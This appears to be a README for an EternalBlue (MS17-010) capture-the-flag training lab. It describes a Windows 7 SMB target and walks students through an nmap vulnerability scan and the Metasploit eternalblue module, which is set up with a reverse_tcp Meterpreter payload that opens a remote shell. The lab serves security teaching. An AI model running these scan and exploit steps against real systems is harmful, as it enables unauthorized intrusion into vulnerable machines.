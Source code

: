 # ETERNAL BLUE Lab

This lab tests the student's ability to identify vulnerable services on Windows systems and exploit the **EternalBlue (MS17-010)** vulnerability using Metasploit. Through this challenge, students will learn:

- How to detect exposed SMB services on the network.
- Using `nmap` for vulnerability scanning with NSE scripts.
- Exploiting EternalBlue using the Metasploit module.
- Gaining remote access via a `Meterpreter` session.
- Reading flags on a Windows user's desktop.

## Machine Specifications 🖥️

- **System:** Windows 7
- **Hostname:** ETERNAL-BLUE
- **Active Services:**
    - 445 (SMB)

- **Desktop Background:** Custom image of a regular user
- **Username:** `user1` (can be customized)
- **Flag:** `C:\Users\user1\Desktop\flag.txt`

## Steps Expected from the Student

1. Discover the machine's IP address. Recommended tools: `nmap`, `netdiscover`, or `arp-scan`.

2. Scan port 445 and detect the MS17-010 vulnerability. Suggested command:

        ```bash
        nmap -p 445 --script smb-vuln-ms17-010 <IP>
        ```

3. Load and configure the exploit in Metasploit. Module to use:

        ```bash
        use exploit/windows/smb/ms17_010_eternalblue
        ```

        Typical parameters:

                ```bash
                set RHOSTS <IP>
                set LHOST <local_IP>
                set PAYLOAD windows/x64/meterpreter/reverse_tcp
                run
                ```

4. Obtain a Meterpreter session. Validate access with:

        ```bash
        getuid
        ```

5. Navigate to the user's desktop and read the flag.
